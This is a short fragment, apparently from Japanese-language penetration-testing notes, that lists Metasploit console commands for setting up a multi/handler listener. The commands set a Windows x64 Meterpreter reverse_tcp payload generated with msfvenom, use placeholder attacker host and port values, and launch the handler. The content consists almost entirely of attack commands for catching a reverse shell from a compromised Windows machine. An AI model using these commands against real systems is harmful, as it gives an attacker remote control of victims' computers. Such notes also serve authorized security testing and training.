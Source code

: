 
use multi/handler  
```
use exploit/multi/handler
```
  
set payload  
msfvenomで選んだpayloadをセットする  
```
set payload windows/x64/meterpreter/reverse_tcp
set lhost ATTACKERIP
set lport ATTACKERPORT
exploit
```

